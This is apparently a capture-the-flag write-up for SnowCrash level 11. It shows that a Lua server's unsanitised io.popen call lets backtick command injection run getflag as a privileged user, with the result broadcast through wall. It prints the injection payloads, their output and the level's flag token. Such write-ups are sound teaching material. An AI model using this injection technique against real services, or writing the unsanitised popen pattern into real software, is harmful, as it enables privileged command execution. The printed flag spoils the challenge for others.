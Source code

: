 ## Level 11

We found a single file [level11.lua](./level11.lua) containing a server accepting connections and asking for a password which will be hashed.

Issue being that it only return `Erf nope..` if we didn't input the right pass, or `Gw you dumb*` if we get the good one.

Hinting us at the fact that the hashed pass isn't what we look for.

### Exploit

```lua
  prog = io.popen("echo "..pass.." | sha1sum", "r")
```

We have control over `pass` since it's what we send to the server after the connection is made with the server.

It uses an `echo` which means that we somehow have control over something, second issue being that it returns the output of popen in a stream `prog`.

Obviously even the `print` later in the script isn't useful since it's supposed to print server side and not client side.

Now the intersting part:

We can use a wonderfull shell command named [wall](https://linuxize.com/post/wall-command-in-linux/) which will broadcast the output of the previous command to every logged user. Which is amazing since the user connected via `nc` is considered in this list.

As we saw in this test:

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `echo lol | wall`
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 15:27 ...                                               
                                                                               
lol                                                                            
                                                                               
Erf nope..
```

When trying to echo the "lol" and piping it to `wall`. The execution of the script get broadcasted to every user connected to the machine. Moreover, the message is broadcasted as `flag11@snow` which means that it's executed as sudo (previously hinted by the `s` permissions when we used `ls -la`).

And so, here is the result:

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `echo \`getflag\` | wall`
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 15:27 ...                                               
                                                                               
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s                      
                                                                               
Erf nope..
```

`getflag` gets executed as sudo and piped into `wall` which will broadcast the result to us and so we directly get the flag!

## Flag

fa6v5ateaw21peobuub8ipe6s
